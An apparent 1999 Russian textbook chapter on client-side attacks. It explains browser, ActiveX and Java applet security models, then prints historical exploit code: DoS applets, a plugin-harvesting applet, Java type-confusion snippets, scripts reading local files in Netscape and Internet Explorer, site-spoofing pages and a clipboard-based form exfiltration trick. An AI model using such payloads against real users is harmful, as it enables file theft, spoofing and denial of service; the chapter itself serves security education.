




Безопасность >>>
АТАКА НА INTERNETАтака на клиента
Далеко не все пользователи Internet осознают, что, подключившись к сети, они не только получают доступ ко всему информационному богатству, но и открывают свой компьютер для доступа извне, а следовательно, подвергают его угрозам, характерным для хостов Сети: угрозе раскрытия, нарушения целостности системы и отказа в обслуживании. Здесь также появляется и четвертый тип атаки, который можно с некоторой натяжкой рассматривать как частный случай отказа в обслуживании с точки зрения системы человек-компьютер, - атака на самого пользователя, выражающаяся в создании условий, неблагоприятных для работы (раздражающие звуки, моргание экрана и т. п.). Безопасность браузеровПопулярные браузеры в своем развитии уже вышли далеко за рамки простых средств отображения гипертекстовых документов. HTML (HyperText Markup Language - язык разметки гипертекстовых документов) изначально был ориентирован исключительно на отображение структурированного текста. Имелась также возможность включить в документ некоторые управляющие элементы для передачи информации на сервер, который после этого мог вернуть клиенту результаты обработки, то есть чисто клиент-серверное решение. Этим и исчерпывались интерактивные возможности Web. По мере развития Сети стало понятно, что ее выразительных средств становится недостаточно для удовлетворения растущих запросов пользователей, и HTML стал включать в себя средства для работы с таблицами, графикой, звуком. Кроме того, не все устраивало и разработчиков Web-приложений - иногда им хотелось бы иметь дело с более интеллектуальным клиентом, способным не только передавать на сервер заполненную форму. Возникла потребность во вспомогательных приложениях клиентской стороны. При разработке этих приложений немедленно всплывают многочисленные проблемы, и безопасность здесь стоит далеко не на последнем месте. Достаточно сказать, что многие прорехи в системе безопасности браузеров, обнаруженные в последнее время, связаны именно с элементами, расширяющими функциональность клиентов. Наибольшую популярность завоевали следующие подходы к реализации вспомогательных приложений для клиентской стороны:
Рассмотрим их более подробно. Использование подключаемых модулей получило в свое время широкое распространение в связи с популярностью браузера Netscape Navigator, предоставляющего такую возможность. С точки зрения безопасности этот подход не выдерживает никакой критики: не обеспечивается ни защита от сбоев, ни защита от злонамеренных действий, предпринимаемых модулем, который имеет полный доступ ко всем ресурсам системы пользователя. Все строится исключительно на доверии к автору модуля. Управляющие элементы ActiveX - решение компании Microsoft, основанное на вездесущей технологии COM (Component Object Model - модель компонентных объектов), перенесенной на этот раз в Internet. Проблема безопасности решается с помощью введения института сертификатов - объекты ActiveX подписываются цифровой подписью автора, заверенной независимой организацией (например, VeriSign Inc.). Таким образом, работа с ActiveX отличается от работы с подключаемыми модулями Netscape только тем, что доверие к автору управляющего элемента может быть подкреплено авторитетом солидной организации. В то же время эта подпись гарантирует лишь возможность определения авторства объекта, а вовсе не его благонадежности. При загрузке объекта ActiveX поведение браузера зависит от настроек его системы безопасности - как подписанные, так и неподписанные (либо заверенные неизвестной организацией) объекты могут быть либо автоматически загружены или отвергнуты, либо предъявлены пользователю, с тем чтобы дальнейшее решение принимал он. В Internet Explorer также можно задать разные настройки для различных зон безопасности - для локальной сети, Internet, отдельных подозрительных хостов, и наоборот, достойных особого доверия. JavaScript, VBScript и т. п. представляют собой упрощенные языки подготовки сценариев, код которых встраивается непосредственно в html-файл и выполняется браузером. Они непригодны для реализации серьезных приложений, в них отсутствуют средства для работы с файлами, сетевого взаимодействия и т. д. Но они широко используются во вспомогательных целях, в качестве средства первоначальной обработки результатов, для оформления, "оживления" html-документов и т.д. Казалось бы, что ограничения, присущие этим языкам, делают их абсолютно безопасными, в действительности же львиная доля ошибок в браузерах связана именно с реализацией этих простейших средств разработки. Безопасность Java-приложенийJava - язык, разработанный Sun Microsystems изначально для приложений бытовой электроники и позднее перенесенный в Internet, что стало для него вторым рождением. Различают обычные Java-приложения и апплеты, предназначенные для загрузки по сети и выполнения в окне браузера.Вопросы безопасности Java-апплетов заслуживают того, чтобы о них говорить отдельно, поскольку это единственное распространенное средство разработки клиентских приложений, в котором решение проблемы безопасности предлагается уже на уровне архитектуры. Основным достоинством Java-приложений является независимость от клиентской платформы. В отличие от традиционных приложений, транслирующихся в исполняемые коды процессора, Java-приложения транслируются в так называемый байт-код, интерпретируемый в дальнейшем виртуальной Java-машиной. При этом байт-код независим от платформы, на которой он в дальнейшем будет выполняться, - достаточно, чтобы для этой платформы существовала Java-машина. Поскольку большинство основных функций реализовано на уровне виртуальной Java-машины, это приводит к существенному уменьшению размеров байт-кода, что является как достоинством, так и недостатком Java-приложений. ТАк как байт-код интерпретируется виртуальной машиной, производительность Java-приложений уступает производительности традиционных откомпилированных программ. Частично с этим удается бороться, применяя компиляторы времени исполнения (JIT - just in time compilers), осуществляющие компиляцию приложения при его загрузке в "родной" для данного процессора код. Также возможен вызов функций, реализованных на других языках программирования (С, С++) и откомпилированных для данной платформы, - так называемый native code (родной код). Он применяется при реализации наиболее критичных ко времени исполнения фрагментов кода. Другим достоинством Java-приложений является защищенность. Во-первых, сам язык способствует написанию более надежных и устойчивых к сбоям программ. Помимо строгой типизации, управления доступом, работы с исключениями, знакомых программистам и по С++, в Java добавлена автоматическая "сборка мусора" (освобождение неиспользуемой памяти), проверка на выход за границы массива, возможность указать, что данный метод или объект не может быть изменен или переопределен. В языке нет указателей и переопределенных операторов. Все эти нововведения помогают создавать более безопасный код. Рассмотрим теперь особенности Java, вынуждающие писать безопасный код. По мере развития Java развивалась и система безопасности. В JDK 1.0 (Java Development Kit) основу системы безопасности составляли три компонента - Verifier (верификатор), ClassLoader (загрузчик классов) и SecurityManager (менеджер безопасности). Эта модель известна под названием sandbox (песочница), в ней выполняются Java-приложения, загруженные из сети (рис. 10.1).
 Рис. 10.1. Модель безопасности JDK 1.0 Для полноценного функционирования модели безопасности каждый ее компонент должен работать безошибочно, поскольку только четкая совместная работа компонентов обеспечивает контроль над приложением во время загрузки и исполнения кода. Первый рубеж обороны - верификатор, проверяющий загружаемый байт-код на корректность, так как у нас нет никакой гарантии, что загружаемый код был получен в результате работы компилятора Java, а не подправлен вручную или не сгенерирован специальным "враждебным" компилятором. После того как код прошел верификацию, гарантируется, что файл класса имеет корректный формат, параметры всех операций имеют правильный тип, в коде не происходит некорректных преобразований типов (например, целого числа в указатель), нет нарушений доступа и т. п. Таким образом, проверяется все, что только можно проверить до начала исполнения программы. Верификатор встроен в виртуальную машину и недоступен из Java-программы. Загрузчики классов определяют, когда и каким образом классы могут быть добавлены в работающую систему. Частью их работы является защита важных составляющих системы, например запрет на загрузку поддельного менеджера безопасности. Они выполняют две основные функции - собственно загрузку байт-кода (с локального диска, по сети, из области памяти и т. д.), определение namespaces (пространства имен) для различных классов и способы их взаимодействия (отделяя, к примеру, локальные классы от загруженных по сети). Существует два вида загрузчиков - primordial (первичный) и Class Loader Object (реализованный в виде объекта). Первичный существует в единственном экземпляре и является составной частью виртуальной машины. Он занимается загрузкой доверенных классов (обычно находящихся на локальном диске). Загрузчик второго типа представляет собой экземпляр обычного Java-класса, унаследованного от абстрактного класса java.lang.ClassLoader. С его помощью можно осуществить загрузку класса по сети либо динамическое конструирование приложением. Метод defineClass преобразует массив байтов в экземпляр класса Class, а экземпляры нового класса создаются с помощью метода newInstance класса Class. Если метод созданного класса ссылается на другие классы, виртуальная машина вызывает метод loadClass его загрузчика, передавая ему имя запрашиваемого класса. При создании экземпляра класса или вызове любого из его методов потребуется также загрузка его предка и других используемых им классов, за это отвечает функция resolveClass. Примерная реализация класса NetworkClassLoader может выглядеть следующим образом:
class NetworkClassLoader
{
String host;
int port;
Hashtable cache = new Hashtable();
NetworkClassLoader(String aHost, int aPort)
{
host = aHost;
port = aPort;
}
private byte loadClassData(String name)[]
{
// собственно загрузка класса
// ...
}
public synchronized Class loadClass(String name, boolean resolve)
{
Class c = cache.get(name);
// Хэш-таблица используется для исключения
// повторной загрузки класса
// и формирования пространства имен
if (c == null)
{
byte data[] = loadClassData(name);
c = defineClass(data, 0, data.length);
cache.put(name, c);
}
if (resolve)
resolveClass(c);
return c;
}
}
ClassLoader loader = new NetworkClassLoader(host, port);
Object main = loader.loadClass("Main", true).newInstance();
На самом деле загрузчик сначала должен обратиться к пространству имен первичного загрузчика и затем, лишь не обнаружив там запрашиваемого класса, продолжить поиск по пространству имен ссылающегося класса, чтобы предотвратить подделку встроенных классов. Причем загрузчик работает совместно с менеджером безопасности, определяющим, можно ли загружать данный класс. Весь алгоритм действий загрузчика обычно выглядит следующим образом:
Загрузчик является существенным элементом модели безопасности, поэтому писать загрузчики следует особо осторожно - малейшая ошибка может привести к полному краху всей системы безопасности. В нормальной ситуации апплеты не имеют возможности устанавливать свои загрузчики. Класс SecurityManager отвечает за политику безопасности приложения. Он позволяет приложению перед выполнением потенциально опасной операции выяснить, выполняется ли она классом, загруженным первичным загрузчиком, либо с помощью некоторого ClassLoader (к последнему, особенно при загрузке из сети, доверия должно быть гораздо меньше). Далее менеджер безопасности может определить, разрешить ли эту операцию или наложить на нее вето. Класс SecurityManager определяет ряд методов, начинающихся со слова "check" (checkDelete, checkExec, checkConnect и т. п.), которые вызываются всеми методами стандартной библиотеки, выполняющими потенциально опасные действия (работа с файлами, сетевыми соединениями и т. п.). Выглядит это обычно следующим образом:
SecurityManager security = System.getSecurityManager();
if (security != null)
{
security.checkXXX(argument, ...);
}
При разрешении операции функция check просто возвращает управление, при запрещении - возбуждает исключение SecurityException. Реализация по умолчанию для любого метода check* предполагает, что вызываемый метод не имеет права на выполнение данной операции. В обязанности менеджера безопасности, работающего с апплетами, входит защита от загрузки новых загрузчиков классов, защита потоков и групп потоков друг от друга, контроль за обращением к системным ресурсам, к ресурсам виртуальной машины, к сетевым соединениям и т. п. Текущий менеджер безопасности устанавливается с помощью функции System.setSecurityManager, причем, если менеджер безопасности уже был установлен, эта функция также возбуждает SecurityException. В JDK 1.1 система безопасности получила дальнейшее развитие (рис. 10.2). Принципиально ничего не изменилось, но была добавлена возможность цифровой подписи классов - аналог сертификатов в ActiveX. Теперь можно решить, заслуживает ли подписанный удаленный код полного доверия, и не накладывать на него стандартные ограничения.
 Рис. 10.2. Модель безопасности JDK 1.1 Побочным эффектом введения этого механизма стало появление в составе стандартной библиотеки Java криптографических функций - Crypto API. Модель безопасности JDK 1.1 отличалась черно-белым взглядом на мир - мы либо полностью доверяем загруженному коду, либо нет. В Java 2 (JDK 1.2), вышедшей в декабре 1998, была представлена новая гибкая модель безопасности, основанная на привилегиях и правах доступа (рис. 10.3).
 Рис. 10.3. Модель безопасности JDK 1.2 Дополнительно к существующим классам в Java 2 добавились:
В каждый момент активен только один объект Policy, считывающий настройки из файла конфигурации. В этом файле можно описать, какие права доступа связаны с той или иной подписью и/или местом расположения файлов:
grant codeBase "http://www.somehost.com/*", signedBy "Signer"
{
permission java.io.FilePermission "/tmp/*", "read";
permission java.io.SocketPermission "*", "connect";
};
Новая модель безопасности имеет следующие особенности:
Таким образом, схема работы довольно гибкая и позволяет эффективно реализовать любую политику безопасности. Суровая действительностьДо сих пор мы говорили о том, каким образом системы безопасности клиентских решений выглядят в идеальном случае, как это должно работать. Реально же большая часть проблем безопасности пользователей связана именно с ошибками в исполнении этих стройных схем. Апплеты, мешающие работе Java-приложения зависят от существующей для данной платформы виртуальной Java-машины. Java-машины реализованы для всех наиболее распространенных платформ, а также входят в состав самых популярных браузеров, но они остаются достаточно ресурсоемкими и зачастую довольно нестабильными системами. Кроме того, остаются проблемы совместимости - поскольку Java изначально проектировалась для написания многоплатформенных приложений, в нее преимущественно входили элементы, существующие на всех платформах, что привело к некоторой аскетичности доступных средств. Отдельные разработчики расширяют возможности виртуальных машин для конкретной платформы, и получается, что Java-приложение, использующее все эти возможности, утрачивает способность запускаться на других платформах. Для начала рассмотрим ряд атак, прекрасно функционирующих в рамках существующей модели безопасности (на сегодняшний день - середина 1999 года - для большинства пользователей популярных браузеров таковой является схема из JDK1.1). Java достаточно хорошо справляется с защитой от нарушения целостности системы, но вот c оставшимися видами атак у нее явные проблемы. Большинство представленных здесь примеров прекрасно функционирует в Netscape Communicator 4.5. Internet Explorer 4.01 справляется с некоторыми из них намного лучше, но и у него есть "любимые мозоли". Так, один из вредоносных апплетов, приводящий к зависанию Windows 9x, активно использовал расширения Java от Microsoft, позволяющие работать напрямую с библиотеками DirectX. Проще всего создаются апплеты, затрудняющие работу пользователя. К примеру, мы открываем какую-то WWW-страницу и вздрагиваем от несущегося из колонок раздражающего звука. Нами овладевает естественное желание немедленно уйти с этой страницы, но тут-то и выясняется, что звук никуда не делся и будет продолжаться до тех пор, пока мы не выйдем из браузера. А на дворе 2 часа ночи, в соседнем окне скачивается третий мегабайт 10-мегабайтного архива, сервер не поддерживает докачки и т.п. И вся проблема - в том, что автор апплета случайно или по злому умыслу пропустил код, выключающий звук при остановке апплета. Мощное средство борьбы с пользователем - потоки. Они вовсе не обязаны остановиться при уходе со страницы, с которой был загружен апплет. В сочетании с установкой приоритета MAX_PRIORITY и обработчика исключительной ситуации ThreadDeath можно получить весьма живучего вредителя, который, к примеру, начнет следить за всеми запускаемыми апплетами и останавливать их потоки. Еще один вариант сценария отказа в обслуживании (Denial of Service - DoS): открываем поток с большим приоритетом и начинаем искать в нем простые числа в диапазоне от 1 до 10100, не забывая насвистывать любимую мелодию, либо запускаем бесконечный цикл и создаем в нем окна размером, например, миллион на миллион пикселей (клавиатура и мышь у клиента будут заблокированы очень скоро):
while(true)
{
try
{
littleWindow = new bigFrame("Hello!");
littleWindow.resize(1000000, 1000000);
littleWindow.move(-1000, -1000);
littleWindow.show();
}
catch (OutOfMemoryError o)
{
repaint();
}
}
class bigFrame extends Frame
{
Label 1;
bigFrame(String title)
{
super(title);
setLayout(new GridLayout(1, 1));
Canvas whiteCanvas = new Canvas();
whiteCanvas.setBackground(Color.white);
add(whiteCanvas);
}
}
Впрочем, DoS-атаки не слишком интересны, пишутся без особых усилий и порой без осознанного участия автора апплета. Чтобы убедиться в этом, достаточно походить по иным перегруженным апплетами страницам. У окон сверхбольшого размера есть еще один интересный аспект использования - ведь в этом случае на экран просто не помещается стандартное сообщение о том, что пользователь видит окно, созданное апплетом. А здесь уже открываются широкие возможности для социальной инженерии (см. главу 2). Наконец, мы можем воспользоваться потоками, чтобы заставить посетителя немного поработать на нас. Конечно, апплет имеет право установить сетевое соединение только с хостом, с которого он был запущен, но нам большего и не надо. Пишем сервер, способный обмениваться информацией с апплетом, запускаем его на том же хосте - и все, распределенная система поиска очередного простого числа, поиска опровержения большой теоремы Ферма или просто подбора паролей готова к работе. Можно даже не изобретать какой-то свой протокол, а воспользоваться готовыми - получать очередное задание по http, отправлять результаты по SMTP, заодно узнать побольше о пользователе. Возможности Java в этом плане ограничены, но в нашем распоряжении есть JavaScript, на котором можно написать, к примеру, код, собирающий информацию об установленных у клиента дополнительных модулях и передающий ее апплету:
/* Unplugged.java by Mark D. LaDue */
/* April 15, 1998 */
/* Copyright (c) 1998 Mark D. LaDue */
import netscape.applet.*;
import netscape.javascript.*;
public class Unplugged extends java.applet.Applet implements Runnable
{
Thread controller = null;
JSObject jso = null;
int numplugs = 0;
String npname = null;
String[] plugs = null;
int histlen = 0;
public void init()
{
jso = JSObject.getWindow(this);
}
public void start()
{
if (controller == null)
{
controller = new Thread(this);
controller.start();
}
}
public void stop() {}
public void run()
{
Control.showConsole();
numplugs = (new Float((jso.eval("pcount()")).toString())).intValue();
System.out.println("\nTotal number of plugins: " + numplugs + "\n");
plugs = new String[numplugs];
for (int i = 0; i < numplugs; i++)
{
plugs[i] = (String) jso.eval("nextPlug()");
System.out.println("Plugin " + (i+1) + ": " + plugs[i] + "\n");
}
histlen = (new Float((jso.eval("hcount()")).toString())).intValue();
System.out.println("Total number of history entries: " + histlen);
}
}
Для демонстрации понадобится включить в html-файл следующий код:
<SCRIPT language="javascript">
navigator.plugins.refresh(true);
pcnt = 0;
hcnt = 0;
function pcount()
{
var pc = navigator.plugins.length;
return pc;
}
function nextPlug()
{
var np = navigator.plugins[pcnt].filename;
pcnt++;
return np;
}
function hcount()
{
var hc = history.length;
return hc;
}
</SCRIPT>
<applet mayscript name="Unplugged" code="Unplugged.class" width=1 height=1>
Атака на святая святых Атаки, подобные перечисленным ранее, используют вполне законопослушный код, не предпринимают никаких попыток взломать систему безопасности Java и пишутся очень легко. Теперь же настала очередь атак другого рода, использующих прорехи в реализации виртуальных машин. Они очень наглядно демонстрируют, как небольшая ошибка сводит на нет работу всей системы безопасности. Все эти ошибки уже благополучно исправлены, но каждая из них могла привести к очень серьезным последствиям.
Остановимся чуть подробнее на некоторых из них. Смешение типов может работать следующим образом. Предположим, что у нас есть два класса
class T
{
SecurityManager x;
}
class U
{
MyObject x;
}
Теперь мы заводим два указателя - t класса T и u класса U, каким-то образом заставляем их указывать на одну и ту же область памяти, после чего выполняем следующий код:
t.x = System.getSecurity(); // получаем SecurityManager
MyObject m = u.x;
Теперь m указывает на ту же область памяти, где находится SecurityManager, и мы можем безболезненно менять его содержимое через поля объекта m. Подобная атака сработает при любом смешении типов, остается лишь найти ошибку, позволяющую проделать подобное совмещение указателей. И такая ошибка была найдена в одной из бета-версий Netscape Navigator. При создании класса T неявно создается тип массив класса Т для внутреннего пользования. Его имя начинается с "[", и, поскольку нельзя создать класс, имя которого начинается с этого символа, все работает безошибочно. Но в той версии Netscape Navigator удавалось загрузить класс с таким именем. Точнее, при этом выдавалась ошибка, но виртуальная машина устанавливала имя в своей внутренней таблице. В результате Java считала объект массивом, хотя он принадлежал совсем другому типу. Итог - замена SecurityManager и потенциальный захват системы. Ошибка, связанная с приведением типов:
interface Inter
{
void f();
}
class Secure implements Inter
{
private void f();
}
class Dummy extends Secure implements Inter
{
public void f();
Dummy()
{
Secure s = new Secure();
Inter i = (Inter) s;
i.f();
}
}
В этом коде вызов i.f() должен быть опознан как вызов защищенного метода класса Secure и запрещен. Неверное поведение Netscape Navigator 2.02 привело к возможности вызова закрытой функции defineClass0, призванной исправить предыдущую ошибку. Небольшая модификация этой же ошибки:
interface Inter
{
void f();
}
class Secure implements Inter
{
private void f();
}
class Dummy implements Inter
{
public void f();
static void attack()
{
Inter inter[2] = {new Dummy(), new Secure() };
for(int j=0; j<2; ++j)
inter[j].f();
}
}
Выяснилось, что в целях оптимизации проверка на корректность вызова осуществлялась только при первом проходе цикла. Ошибка в бета-версии Internet Explorer 3.0 была последней серьезной ошибкой, найденной в реализациях JDK 1.0.2. После ее обнаружения и до выхода JDK 1.1 прошло шесть спокойных месяцев. Далее последовали ошибки, позволяющие определить реальный IP-адрес машины и список открытых портов, получить список авторов, подписям которых доверяют на этой машине, и сымитировать доверяемую подпись, отключить контроль за безопасностью в Netscape Navigator 4.0x, унаследованную от AppletClassLoader, и еще 24 ошибки в верификаторе от JDK 1.0.2, 15 из которых перешли в 1.1.1, и 17 ошибок в верификаторе Internet Explorer. Таким образом, несмотря на все заявления об окончательном решении проблемы безопасности в Java, нельзя не заметить, что до сих пор во всех ее реализациях были обнаружены серьезные ошибки, и нет оснований в ближайшее время рассчитывать на ее полную безопасность. Не только Java Не будем подробно останавливаться на каждой ошибке, обнаруженной в популярных браузерах, постараемся лишь выделить 8основные из них. Соответствующая информация регулярно появляется на сайтах производителей (для Internet Explorer - http://www.microsoft.com/windows/ie/security/, для Netscape Navigator - http://home.netscape.com/products/security/resources/notes.html), оттуда же можно скопировать последние обновления и исправления, что обязательно стоит сделать, если вы хотите чувствовать себя в относительной безопасности при работе в Сети. Можно выделить две основные категории ошибок в браузерах, не связанных непосредственно с Java: ошибки, позволяющие передать по сети содержимое локальных файлов и другой информации о пользователе, и ошибки, приводящие к нарушению работоспособности браузера, а в отдельных случаях и всей системы. Ошибки первого типа наиболее разнообразны по способу реализации. Большинство ошибок Netscape Navigator связано с JavaScript. Среди них можно выделить передачу файлов через форму без ведома пользователя, использование средств взаимодействия Java и JavaScript для отслеживания действий пользователя (посещаемые сайты, данные, отправляемые через формы), получение файла с пользовательскими настройками (к примеру, пароль для доступа к почтовому серверу), "подделка" сайтов - отображение в окне браузера информации, не соответствующей адресной строке. Так, следующий код, работающий в Netscape Navigator 4.5, демонстрирует считывание файла с локального диска. В примере первые несколько строк файла c:\test.txt выводятся в окне сообщения, этот же код можно использовать и для передачи содержимого на сервер через форму или каким-то другим способом.
<SCRIPT>
sl=window.open("wysiwyg://1/file:///C|/");
sl2=sl.window.open();
sl2.location=
"javascript:s='<SCRIPT>b=\"Here is the beginning of your file: \";"+
"var f = new java.io.File(\"C:\\\\\\\\test.txt\");"+
"var fis = new java.io.FileInputStream(f);"+
"i=0; while ( ((a=fis.read()) != -1) && (i<100) )"+
"{ b += String.fromCharCode(a);i++;}alert(b);</'+'SCRIPT>'";
</SCRIPT>
Следующий код демонстрирует технику подделки сайтов - строка адреса указывает на www.yahoo.com, в окне же находится любой текст, который вы вывели с помощью JavaScript, например форма с вводом пароля и т. п.
<SCRIPT>
function doit()
{
a.document.open();
a.document.write("Любой html-код");
a.document.close();
}
function winopen()
{
//Можно также использовать
//a=window.open("view-source:javascript:location='wysiwyg://1/http://www.yahoo.com';");
a=window.open("view-source:javascript:location='http://www.yahoo.com';");
setTimeout('doit()',300);
}
</SCRIPT>
<BR>
<A HREF="javascript:void(0)" onclick="winopen()"
onMouseOver="window.status='http://www.yahoo.com';return true">
Follow this link to go to www.yahoo.com (or somewhere else)
</A>
Среди ошибок, характерных для Internet Explorer, помимо традиционных проблем с JavaScript, приводящих все к тому же слежению за пользователем и передаче файлов через формы, можно выделить ошибки, использующие тесную интеграцию Internet Explorer с другими системными объектами и обходящие защиту, основанную на зонах безопасности. При этом активно используются объекты ActiveX. Так, например, добавление '%01someURL' к некоторому другому адресу заставляет Internet Explorer считать, что документ загружен из домена, которому принадлежит someURL. Этот пробел в безопасности может использоваться и для считывания локальных файлов с диска пользователя, и для подделки сайтов. Следующий код заставляет Internet Explorer считать, что объект TDC создается из файла на жестком диске, и дает ему возможность работать с локальными файлами. Дальнейшее развитие этой идеи вполне может привести к созданию полноценного html-вируса, размножающегося при загрузке из Сети, а не только из локального файла, как это было с вирусом HTML.Internal:
<SCRIPT>
s="about:<SCRIPT>a=window.open('view-source:x');a.document.open();"+
"a.document.write(\"<object id='myTDC' width=100 height=100"+
"classid='CLSID:333C7BC4-460F-11D0-BC04-0080C7055A83'>"+
"<param name='DataURL' value='c:/test.txt'>"+
"<param name='UseHeader' value=False>"+
"<param name='CharSet' VALUE='iso-8859-1'>"+
"<param name='FieldDelim' value='}'>"+
"<param name='RowDelim' value='}'>"+
"<param name='TextQualifier' value='}'>"+
"</object><form>"+
"<textarea datasrc='#myTDC' datafld='Column1' rows=10 cols=80>"+
"</textarea></form>\");a.document.write"+
"('<SCRIPT>setTimeout(\"alert(document.forms[0].elements[0].value)\",4000)</SCRIPT');"+
"a.document.write('>');a.document.close();close();</"+
"SCRIPT>%01file://c:/";
b=showModalDialog(s);
</SCRIPT>
Использование этой же ошибки в целях подделки сайтов демонстрирует следующий код:
<SCRIPT>
b=showModalDialog(
"about:<SCRIPT>a=window.open('http://www.yahoo.com');"+
"a.document.write('<HTML><HEAD><TITLE>Yahoo</TITLE><BODY></HEAD>Любой html-код');"+
"close()</"+"SCRIPT>%01http://www.yahoo.com");
</SCRIPT>
В ряде ошибок, обнаруженных J.C.G.Cuartango, встречаются различные модификации идеи применять буфер обмена Windows для передачи информации о компьютере клиента. Самый первый вариант скрипта выглядел так:
function getfile()
{
document.forms[1].T1.select();
document.execCommand("copy");
document.forms[0].filename.select();
document.execCommand("paste");
document.forms[0].submit();
}
Подразумевается, что в документе присутствует форма со скрытым полем T1 и полем filename, предназначенным для передачи файла на сервер. В нормальной ситуации имя файла может быть задано только пользователем, здесь же демонстрируется возможность копирования содержимого поля T1 в буфер обмена с последующей его вставкой в filename и автоматическим отправлением формы. В другом варианте скрипта использовался объект selection, в более поздних - объекты ActiveX Microsoft Forms 2.0 TextBox и Microsoft Web Browser. Оба браузера очень слабо защищены от всевозможных вариаций на тему бесконечных циклов, рекурсий и т.п., поглощающих ресурсы системы и приводящих к зависанию либо аварийному завершению работы браузеров. Немного поодаль отстоят ошибки Internet Explorer, связанные с переполнением буфера при обработке нестандартных URL большой длины (res:// и mk://). Это открывает возможность передачи в URL кода, который будет выполнен непосредственно на компьютере клиента. Демонстрацию использования этой ошибки в сочетании с обнаруженной незадолго до того ошибкой в Pentium, приводящей к полному "замораживанию" системы, можно увидеть на странице http://www.l0pht.com/advisories/pentium.htm. Безопасность других клиентских приложенийГоворя о безопасности пользователя при работе с Internet, было бы не совсем корректно ограничиться одними браузерами. Во-первых, некоторые программы (почтовые клиенты, html-редакторы и т. п.) интенсивно используют возможности браузеров для отображения html. Популярные почтовые клиенты давно уже позволяют работать с письмами в html-формате и не ждать, когда потенциальная жертва зайдет на страницу с опасным кодом, а доставить его непосредственно по месту назначения. При этом, правда, можно использовать зоны безопасности для отключения возможности исполнения JavaScript и прочих активных элементов из этих файлов либо вообще запретить JavaScript (единственный вариант, хоть и не совсем приемлемый для пользователей NetscapeNavigator). С аналогичными проблемами сталкиваются пользователи почтовых программ, не умеющих самостоятельно читать html-сообщения и вызывающих с этой целью браузер, который считает эти файлы локальными и не особо препятствует им в их черном деле. До недавнего времени "почтовые вирусы" занимали почетное место в Internet-мифологии. Сообщения типа "Письмо с пометкой Good Times содержит вирус, который мгновенно заразит ваш компьютер при попытке прочтения! Сообщите об этом всем своим знакомым" хорошо знакомы многим старожилам Сети, которые прекрасно знают, что роль вируса здесь на самом деле играет само письмо, расходящееся кругами по сотням тысяч адресатов, поглощающее огромное количество сетевого трафика и вынуждающее людей тратить огромное количество времени в поисках защиты от несуществующих проблем. Однако не так давно ошибки, связанные с переполнением буфера и синхронно обнаруженные в Netscape Mail и Outlook Express, сделали былью и эту сказку. Методы проникновения несколько различаются, но идея в обоих случаях одна - использование присоединенных файлов. Причем проблема не в самом файле (это может быть любой - exe, txt, gif и пр.), а в тэгах, его описывающих. Другими словами, чтобы быть атакованным, даже не надо открывать этот файл - достаточно прочитать письмо. Тесная интеграция с офисными приложениями в сочетании с обнаруженными в них ошибками сделала реальными и другие сценарии. Например, уже сейчас вы можете получить письмо в html-формате, которое будет содержать код на JavaScript, открывающий некоторую страницу в Internet. На той странице будет лежать документ в формате Word 97, который при наличии этой программы на вашем компьютере немедленно начнет работу. Далее Word загрузит присоединенный к этому документу шаблон с макросом, автоматически выполняющимся при открытии документа, и если у вас не установлена последняя заплатка, то этот макрос запустится без единого вопроса. А макросы, написанные на Visual Basic for Applications, - это вполне полноценные программы, имеющие доступ ко всем ресурсам вашего компьютера. Впрочем, это не повод доверять подобным письмам, не содержащим ни малейшей информации о том, какая именно ошибка и в каком почтовом клиенте может привести к таким катастрофическим последствиям. Остальные клиентские приложения распространены в гораздо меньшей степени, чем браузеры и почтовые клиенты, и ошибки, в них обнаруживаемые, затрагивают гораздо меньшие слои пользователей. Наибольшие проблемы среди них создают всевозможные программы для интерактивного общения - так называемые chats (чаты), Internet-телефоны, средства передачи сообщений и т.п. Многие из них не слишком заботятся о безопасности пользователя, позволяя получить большое количество информации о его системе, начиная от IP-адреса и самого факта его нахождения в сети, а заканчивая временем суток и типом операционной системы, что существенно упрощает задачу целенаправленной атаки. Кроме того, большинство программ использует не слишком надежные протоколы передачи информации (притчей во языцех стало количество "дырок" в ICQ), средства автоматизации работы с помощью макроязыков, позволяющие провести атаку, предложив жертве "боевой скрипт". Наконец, они являются едва ли не главным источником распространения всевозможных вирусов и "троянцев" - ну как не запустить программу с поздравительной открыткой, присланную новым знакомым по чату! Вирусы и "троянские" кониГоворя о безопасности в современной сети, нельзя не упомянуть ставшую довольно острой в последнее время проблему компьютерных вирусов и "троянских" коней. И те, и другие - всего лишь программы, обладающие некоторыми специфическими свойствами. "Троянский" конь, или "троянец", - это общее название для любых программ, выполняющих некоторые посторонние, как правило, нежелательные для пользователя функции. Вирусы часто путают с "троянцами", граница тут действительно прозрачная, но если под определение "троянца" подходит даже команда format c:, набранная по совету старшего товарища неопытным пользователем, то главная отличительная черта вирусов - способность размножаться, то есть воспроизводить свой код. В качестве носителя вируса могут выступать исполняемые файлы, загрузочные секторы дисков, документы программ, способных исполнять макрокоманды, и т.п. - практически любые объекты, выполняющие запрограммированную последовательность действий. О вирусах и "троянцах" можно говорить довольно долго, но нас сейчас они интересуют с точки зрения взаимодействия с Internet. В первую 